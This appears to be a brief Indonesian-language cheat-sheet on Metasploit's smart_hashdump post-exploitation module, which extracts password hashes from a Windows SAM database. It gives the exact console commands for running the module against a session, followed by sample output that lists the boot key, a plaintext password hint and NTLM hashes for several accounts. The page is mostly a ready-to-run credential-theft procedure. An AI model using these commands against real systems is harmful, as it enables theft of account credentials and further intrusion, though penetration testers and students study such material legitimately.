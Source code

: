 # smart_hashdump

Modul `smart_hashdump` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengekstrak `hash password` dari `SAM` (Security Account Manager) database pada komputer target.

## Cara Penggunaan di Metasploit

```
use post/windows/gather/smart_hashdump
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Running module against ADMIN-PC
[*] Hashes will be saved to the database if one is connected.
[+] Hashes will be saved in loot in JtR password file format to:
[*] /root/.msf4/loot/20250516134518_default_192.168.1.52_windows.hashes_110122.txt
[*] Dumping password hashes...
[*] Running as SYSTEM extracting hashes from registry
[*] 	Obtaining the boot key...
[*] 	Calculating the hboot key using SYSKEY 719ee74fc86782fded26e05e9802b0c9...
[*] 	Obtaining the user list and keys...
[*] 	Decrypting user keys...
[*] 	Dumping password hints...
[+] 	admin:"10101010"
[*] 	Dumping password hashes...
[+] 	Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] 	admin:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
[+] 	HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:afd92ce617b3210a7243ac63c8b3cf98:::
[*] Post module execution completed

```
